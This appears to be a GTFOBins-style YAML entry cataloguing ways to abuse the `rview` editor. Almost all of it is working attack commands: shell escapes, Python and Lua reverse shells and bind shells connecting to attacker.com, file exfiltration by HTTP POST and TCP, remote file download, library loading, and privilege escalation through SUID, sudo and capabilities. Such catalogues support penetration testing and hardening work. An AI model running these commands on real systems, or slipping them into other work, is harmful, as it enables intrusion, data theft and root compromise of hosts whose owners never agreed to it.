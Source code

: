 ```yaml
---
functions:
  shell:
    - description: This requires that `rview` is compiled with Python support. Prepend `:py3` for Python 3.
      code: rview -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
    - description: This requires that `rview` is compiled with Lua support.
      code: rview -c ':lua os.execute("reset; exec sh")'
  reverse-shell:
    - description: This requires that `rview` is compiled with Python support. Prepend `:py3` for Python 3. Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        rview -c ':py import vim,sys,socket,os,pty;s=socket.socket()
        s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
        [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
        pty.spawn("/bin/sh")
        vim.command(":q!")'
  non-interactive-reverse-shell:
    - description: Run ``nc -l -p 12345`` on the attacker box to receive the shell. This requires that `rview` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        rview -c ':lua local s=require("socket"); local t=assert(s.tcp());
          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
          while true do
            local r,x=t:receive();local f=assert(io.popen(r,"r"));
            local b=assert(f:read("*a"));t:send(b);
          end;
          f:close();t:close();'
  non-interactive-bind-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell. This requires that `rview` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export LPORT=12345
        rview -c ':lua local k=require("socket");
          local s=assert(k.bind("*",os.getenv("LPORT")));
          local c=s:accept();
          while true do
            local r,x=c:receive();local f=assert(io.popen(r,"r"));
            local b=assert(f:read("*a"));c:send(b);
          end;c:close();f:close();'
  file-upload:
    - description: This requires that `rview` is compiled with Python support. Prepend `:py3` for Python 3. Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        rview -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
        else: import urllib as u, urllib2 as r
        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))
        vim.command(":q!")'
    - description: This requires that `rview` is compiled with Python support. Prepend `:py3` for Python 3. Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        rview -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import http.server as s, socketserver as ss
        else: import SimpleHTTPServer as s, SocketServer as ss
        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()
        vim.command(":q!")'
    - description: Send a local file via TCP. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file. This requires that `rview` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_send
        rview -c ':lua local f=io.open(os.getenv("LFILE"), 'rb')
          local d=f:read("*a")
          io.close(f);
          local s=require("socket");
          local t=assert(s.tcp());
          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
          t:send(d);
          t:close();'
  file-download:
    - description: This requires that `rview` is compiled with Python support. Prepend `:py3` for Python 3. Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        rview -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r
        else: import urllib as r
        r.urlretrieve(e["URL"], e["LFILE"])
        vim.command(":q!")'
    - description: Fetch a remote file via TCP. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file. This requires that `rview` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export LPORT=12345
        export LFILE=file_to_save
        rview -c ':lua local k=require("socket");
          local s=assert(k.bind("*",os.getenv("LPORT")));
          local c=s:accept();
          local d,x=c:receive("*a");
          c:close();
          local f=io.open(os.getenv("LFILE"), "wb");
          f:write(d);
          io.close(f);'
  file-write:
    - code: |
        rview file_to_write
        iDATA
        ^[
        w!
  file-read:
    - code: rview file_to_read
  library-load:
    - description: This requires that `rview` is compiled with Python support. Prepend `:py3` for Python 3.
      code: rview -c ':py import vim; from ctypes import cdll; cdll.LoadLibrary("lib.so"); vim.command(":q!")'
  suid:
    - description: This requires that `rview` is compiled with Python support. Prepend `:py3` for Python 3.
      code: ./rview -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
  sudo:
    - description: This requires that `rview` is compiled with Python support. Prepend `:py3` for Python 3.
      code: sudo rview -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
    - description: This requires that `rview` is compiled with Lua support.
      code: sudo rview -c ':lua os.execute("reset; exec sh")'
  capabilities:
    - description: This requires that `rview` is compiled with Python support. Prepend `:py3` for Python 3.
      code: ./rview -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
  limited-suid:
    - description: This requires that `rview` is compiled with Lua support.
      code: ./rview -c ':lua os.execute("reset; exec sh")'
---
```

